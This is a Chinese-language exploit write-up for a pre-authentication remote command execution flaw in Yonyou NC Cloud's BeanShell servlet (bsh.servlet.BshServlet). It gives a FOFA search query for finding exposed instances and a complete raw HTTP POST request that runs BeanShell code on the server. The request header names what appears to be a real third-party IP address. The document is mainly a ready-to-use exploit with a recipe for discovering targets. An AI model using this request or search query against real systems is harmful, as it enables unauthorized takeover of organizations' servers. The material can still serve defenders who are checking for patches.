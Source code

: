 # 用友NC Cloud存在前台远程命令执行漏洞

## 1.漏洞描述

用友 NC bsh.servlet.BshServlet 存在远程命令执行漏洞，该漏洞为远程命令执行漏洞，在无需登陆系统的情况下，攻击者可通过BeanShell测试接口（BeanShell可以直接执行java代码，适用于测试java代码的接口）直接执行任意命令，恶意攻击者成功利用该漏洞可获得目标系统管理权限。

## 2.搜索语法

```plain
fofa：app="用友-UFIDA-NC"
```

## 3.漏洞复现

```plain
POST /servlet/~ic/bsh.servlet.BshServlet HTTP/1.1
Host: 127.0.0.1
Content-Length:28
Cache-Control:max-age=0,
Upgrade-Insecure-Requests:1,
Origin:http://8.130.46.216:8082
Content-Type:application/x-www-form-urlencoded
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko/125.0.0.0 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webapng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer:http://8.130.46.216:8082/servlet/~ic/bsh.servlet.BshServlet
Accept-Encoding:gzip, deflate
Accept-Language:zh-CN,zh;q=0.9
Cookie:JSESSIONID=BCFBABDCFCBF9D0D7C482AF1BDFEF70D.server
Connection:close

bsh.script=print("Hardog")
```

![image-20240614131356293](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240614131356293.png)
